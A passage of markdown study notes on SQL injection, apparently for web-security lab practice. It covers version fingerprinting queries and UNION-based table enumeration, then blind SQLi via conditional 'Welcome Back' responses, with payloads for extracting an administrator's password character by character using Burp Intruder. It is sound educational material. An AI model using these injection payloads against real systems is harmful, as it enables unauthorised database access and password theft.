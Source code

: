 	Microsoft, MySQL 	SELECT @@version
	Oracle 	            SELECT * FROM v$version
	PostgreSQL 	        SELECT version()
	```
- `' UNION SELECT @@version--` may return : 
	```
	Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
	Mar 18 2018 09:11:49
	Copyright (c) Microsoft Corporation
	Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
	```
- Note**: remember that the number columns selected must match the total number of columns in the original query
## Listing The Tables & Columns In Database
	```
	Oracle 	    SELECT * FROM all_tables
		        SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
	Microsoft 	SELECT * FROM information_schema.tables
	            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
	PostgreSQL 	SELECT * FROM information_schema.tables
	            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
	MySQL 	    SELECT * FROM information_schema.tables
	            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
	```

# Blind SQL Injection 
- Occurs when a application is vulnerable to SQLi, but there is no change in responses (different results or errors) for us to verify that it is vulnerable 
- attacks like `UNION` attacks will not work it depends on a change in response to work 
- different methods must hence be employed
## Blind SQLi By Triggering Conditional Responses
- retrieving different responses conditionally based on the injected condition
	- example, if an application uses a tracking cookie such as : 
		`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`
	- when the request is processed, it will submit a query to the database as follows: 
		`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
	- we can tell that there is a SQLi vulnerability when it displays a 'Welcome Back' message
- `TRUE` query to identify conditional message in response: 
	`' AND '1'='1`
	- using the `AND` logical operator means both statements must be true, triggering a 'Welcome Back' message
- `FALSE` query to identify conditional message NOT in response:  
	`'AND '1'='2'`
	- using the `AND` logical operator mean both first statement must be `TRUE` and second statement must be `FALSE` to display the 'Welcome Back' message, but no message is returned, meaning the overall statement is `FALSE`
- after determining if a change in response is triggered by a boolean, we can find the password of the user *administrator*
- for example, if there is a table called *users* with *administrator* we can confirm this by using: 
	- `' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a` and going into Burp Intruder -> Grep-Match, clearing any existing entries and adding the 'Welcome Back' value to identify the `TRUE` condition. 
	- if it returns the 'Welcome Back' message, then we know that there is a user administrator with their password. 
	- keep incrementing the length of the password to determine the length of the password (until the Welcome Back message no longer appears)
- we can then find the password by testing the character at each position. 
	- use the Cluster Bomb feature in Burp Intruder to change to increment the position and find the character when a Welcome Back message is returned.